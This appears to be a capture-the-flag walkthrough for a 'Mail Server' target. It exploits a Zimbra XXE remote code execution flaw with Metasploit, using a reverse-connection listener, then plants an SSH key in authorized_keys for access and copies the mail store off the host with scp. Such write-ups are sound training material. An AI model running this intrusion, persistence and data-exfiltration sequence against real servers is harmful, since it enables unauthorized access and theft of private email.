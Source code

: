 # Mail Server

1. **Address:** `172.16.3.67`
2. **Find vulnerability:** [Exploit-DB](https://www.exploit-db.com/exploits/46693)
3. **Run Metasploit:**

    ```shell
    msfconsole -q
    use exploit/linux/http/zimbra_xxe_rce
    set RHOST 172.16.3.67
    set RPORT 443
    set LHOST 10.8.0.29
    set LPORT 4747

    # -j will run it as a JOB
    run
    ```

    > **Attention:** Password: `Zimbra2024`

4. **Check SSH Keys (Create One, if needed):**

    ```shell
    cat ./id_ed25519.pub

    # Create If You Don't Have one
    ssh-keygen -t ed25519 -f ./id_ed25519 -N ""
    ```

5. **Set public Key:**

    ```shell
    echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOCswCp0rS8p6Ost8dvKK7ZQHrrgfEYo1JM1cEroUnY4 danial@pop-os" > ~/.ssh/authorized_keys
    ```

6. **SSH into Server:**

    ```shell
    ssh -i ./id_ed25519 zimbra@172.16.3.67 -p 2200
    ```

7. **Download Zimbra Data:**

    ```shell
    scp -P 2200 -i ./id_ed25519 -r zimbra@172.16.3.67:/opt/zimbra/store/0 ./08-store0
    ```

8. **Check Emails and Decode Files:** [CyberChef](https://gchq.github.io/CyberChef/)
9. **Flag:** `MAZAPA_f7fcfe674431022cab7ae571058b1327`
